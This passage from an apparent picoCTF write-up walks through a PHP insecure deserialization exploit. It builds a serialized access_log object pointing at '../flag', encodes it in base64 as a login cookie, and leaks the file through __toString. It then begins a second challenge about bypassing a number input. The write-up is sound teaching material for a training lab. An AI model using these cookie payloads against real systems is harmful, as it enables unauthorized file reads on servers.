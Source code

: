 However, we can serialize an another object which will allow us to read files on the server:

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

So, we create an `access_log` which will read `../flag`:

```php
echo(serialize(new access_log("../flag")));
// -> O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Encode it in base64 and put it in `login` cookie:

```
login: TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

To sum up:

- `$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));` serialize an `access_log` object with `$log_file="../flag"`
- `$g = $perm->is_guest();` throw an error because `access_log` doesn't have `is_guest` method
- the error is catch by `catch(Error $e)`
- `die("Deserialization error. ".$perm);` call the `__toString` method of `access_log` which read `../flag` and display it content

And we get `Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`

The flag is: `picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`

## Startup Company

We are on a website, we create an account and logged in

There is a number input which accepts only digits, change in HTML type from `number` to `text` to write all we wants
